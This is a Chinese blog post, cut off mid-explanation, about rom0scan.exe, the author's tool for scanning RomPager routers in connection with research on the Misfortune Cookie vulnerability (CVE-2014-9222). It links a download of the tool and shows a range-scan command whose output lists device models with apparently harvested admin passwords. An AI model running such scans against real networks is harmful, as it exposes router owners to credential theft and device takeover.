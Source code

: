 标题: 程序员的片段(2)--rom0scan.exe出台记

创建: 2015-04-17 11:39
更新:
链接: http://scz.617.cn/python/201504171139.txt

决定以一种不那么严谨的风格写写程序员的片段。有些是一般性回忆，有些是带点启
发性的流水帐。什么动机、什么目的呢？啥也没有，就是扯淡。由于不严谨，不是正
经技术文章，文中内容万不可当真，我就那么一写，你就那么一看。

rom0scan.exe是一个小工具，在这里下载:

http://pan.baidu.com/s/1i3gnO4P

看上去是这样的:

$ rom0scan.exe -m -b xx.xx.xx.1 -e xx.xx.xx.254

xx.xx.xx.141    [200] [RomPager/4.07 UPnP/1.0] [TD-W8901G] [310790]
xx.xx.xx.34     [200] [RomPager/4.07 UPnP/1.0] [TD-W8101G] [EbS7P27]
xx.xx.xx.120    [200] [RomPager/4.07 UPnP/1.0] [TD-8817] [freddym009cmm]
xx.xx.xx.205    [200] [RomPager/4.07 UPnP/1.0] [TD-W8901G] [password]
xx.xx.xx.53     [200] [RomPager/4.07 UPnP/1.0] [Home Gateway] [EbS10P32]
xx.xx.xx.165    [200] [RomPager/4.07 UPnP/1.0] [TD-8817] [362729]
xx.xx.xx.89     [200] [RomPager/4.07 UPnP/1.0] [TD-8817] [password]
xx.xx.xx.242    [200] [RomPager/4.07 UPnP/1.0] [TD-W8901G] [BASHO87013899828]
xx.xx.xx.106    [200] [RomPager/4.07 UPnP/1.0] [TD-8817] [password]
xx.xx.xx.66     [200] [RomPager/4.07 UPnP/1.0] [Home Gateway] [EbS7P27]
xx.xx.xx.208    [200] [RomPager/4.07 UPnP/1.0] [Home Gateway] [362729]
xx.xx.xx.159    [200] [RomPager/4.07 UPnP/1.0] [Home Gateway] [m4f6h3]
xx.xx.xx.52     [200] [RomPager/4.07 UPnP/1.0] [TD-8817] [fdpm0r]

下面说说为什么写这个工具。

参看:

Misfortune Cookie漏洞(CVE-2014-9222)补遗
http://scz.617.cn/misc/201504141114.txt

其中提到:

--------------------------------------------------------------------------
我没有找到可能存在的神技巧快速、稳定地远程确定这些值:

C_Array
authoff
evilnum
evilcookie

暂时计划在将来的日子里陆续手工收集这些数据，这依赖于我在野地里找到的测试目
标以及能否下载得到相关固件。
--------------------------------------------------------------------------

很多型号、版本的固件已经无法下到，我只能先尽可能地收集各种型号、版本的固件，
然后去找使用该固件的目标。

型号比较容易扫描，"GET / HTTP/1.0\r\n\r\n"导致的401响应中有:
